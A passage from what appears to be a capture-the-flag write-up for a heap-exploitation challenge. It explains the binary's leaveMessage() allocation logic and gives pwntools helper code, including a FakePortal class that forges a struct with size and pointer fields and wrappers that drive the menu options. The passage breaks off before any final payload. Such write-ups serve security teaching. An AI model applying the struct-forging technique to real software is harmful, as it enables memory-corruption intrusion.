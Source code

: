 ```m``` option calls ```leaveMessage()``` function, that, if ```now->msgSize``` is zero, asks for an integer ```N``` in input and sets ```now->msgSize``` equal to ```N*16```; in this case, it also calls ```malloc``` with that size and sets ```now->msg``` to the pointer returned by ```malloc```. At last, in both cases (```now->msgSize``` == 0, or not), it takes input from stdin in the buffer pointed by ```now->msg``` using ```fgets```:
{% highlight python %}
from pwn import *


class FakePortal:
    def __init__(self, year: int, portals: list, msgSize: int, msg: int):
        self.year = p64(year)
        self.portals = [p64(0) for i in range(5)]
        for i in range(min(len(portals), 5)):
            self.portals[i] = p64(portals[i])
        self.msgSize = p64(msgSize)
        self.msg = p64(msg)

    def dump(self) -> bytes:
        return self.year + b''.join(self.portals) + self.msgSize + self.msg


def leave_message(r, msgSize, msg, flush=True):
    # NOTE: actual msgSize is 16*msgSize
    # r.recvuntil('? ')
    r.sendline('m')
    if msgSize != 0:
        r.recvuntil('? ')
        r.sendline(str(msgSize))
        r.recvuntil('?\n')
    r.sendline(msg)
    r.recvuntil('!\n\n')
    if flush:
        read_description(r)


def open_portal(r, year, flush=True):
    # r.recvuntil('? ')
    r.sendline('o')
    r.sendline(str(year))
    r.recvuntil('!\n\n')
    if flush:
        read_description(r)


def close_portal(r, year, flush=True):
    # r.recvuntil('? ')
    r.sendline('c')
    r.sendline(str(year))
    r.recvuntil('!\n\n')
    if flush:
        read_description(r)


def take_portal(r, year, flush=True):
    # r.recvuntil('? ')
    r.sendline('t')
    r.sendline(str(year))
    r.recvuntil('*\n\n', timeout=2)
    if flush:
        read_description(r)


def read_description(r):
    year = int(r.recvline().decode().strip().split()[-1].split('.')[0])
    portals = True
    lines = r.recvuntil('? ').split(b'\n')
    msg = None
```